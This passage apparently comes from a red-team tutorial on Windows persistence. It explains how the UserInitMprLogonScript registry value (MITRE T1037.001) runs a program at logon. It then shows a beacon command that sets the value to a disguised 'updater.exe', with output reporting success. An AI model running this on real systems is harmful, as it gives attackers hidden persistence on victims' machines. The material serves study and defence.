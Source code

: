 The `HKCU\Environment` registry key contains the user's environment variables, such as `%Path%` and `%TEMP%`.  An adversary can add another value to this key called `UserInitMprLogonScript` [[T1037.001](https://attack.mitre.org/techniques/T1037/001/)].  As with the autorun keys, is this value should contain the path to a program, then it will execute automatically when the user logs in.

```powershell
beacon> reg_set HKCU Environment UserInitMprLogonScript REG_EXPAND_SZ %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\updater.exe

Setting registry key \\.\0000000080000001\Environment\UserInitMprLogonScript with type 2
Successfully set regkey
SUCCESS.
```
